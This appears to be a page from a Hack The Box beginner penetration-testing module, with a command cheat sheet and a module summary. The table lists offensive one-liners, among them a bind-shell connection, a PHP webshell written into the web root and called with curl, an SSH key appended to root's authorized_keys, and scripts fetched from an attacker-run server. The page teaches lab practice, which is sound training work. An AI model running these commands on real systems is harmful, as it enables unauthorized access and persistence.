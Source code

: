 | `nc 10.10.10.1 1234` | Connect to a bind shell started on the remote server |
| `python -c 'import pty; pty.spawn("/bin/bash")'` | Upgrade shell TTY (1) |
| `ctrl+z` then `stty raw -echo` then `fg` then `enter` twice | Upgrade shell TTY (2) |
| `echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php` | Create a webshell php file |
| `curl http://SERVER_IP:PORT/shell.php?cmd=id` | Execute a command on an uploaded webshell |
| **Privilege Escalation** |
| `./linpeas.sh` | Run `linpeas` script to enumerate remote server |
| `sudo -l` | List available `sudo` privileges |
| `sudo -u user /bin/echo Hello World!` | Run a command with `sudo` |
| `sudo su -` | Switch to root user (if we have access to `sudo su`) |
| `sudo su user -` | Switch to a user (if we have access to `sudo su`) |
| `ssh-keygen -f key` | Create a new SSH key |
| `echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys` | Add the generated public key to the user |
| `ssh root@10.10.10.10 -i key` | SSH to the server with the generated private key |
| **Transferring Files** |
| `python3 -m http.server 8000` | Start a local webserver |
| `wget http://10.10.14.1:8000/linpeas.sh` | Download a file on the remote server from our local machine |
| `curl http://10.10.14.1:8000/linenum.sh -o linenum.sh` | Download a file on the remote server from our local machine |
| `scp linenum.sh user@remotehost:/tmp/linenum.sh` | Transfer a file to the remote server with `scp` (requires SSH access) |
| `base64 shell -w 0` | Convert a file to `base64` |
| `echo f0VMR...SNIO...InmDwU \| base64 -d > shell` | Convert a file from `base64` back to its orig |
| `md5sum shell` | Check the file's `md5sum` to ensure it converted correctly |

### Module Summary

This module introduces core penetration testing concepts, getting started with Hack The Box, a step-by-step walkthrough of your first HTB box, problem-solving, and how to be successful in general when beginning in the field. In this module, we will cover:

-   An overview of Information Security
-   Penetration testing distros
-   Common terms and technologies
-   Scanning and enumeration basics
-   Using public exploits
-   Shells, privilege escalation, and transferring files
-   Navigating the HTB platform
-   A step-by-step walkthrough of a retired HTB box
-   Common pitfalls and asking questions effectively
-   Completing a box without a walkthrough
-   Next steps in the field
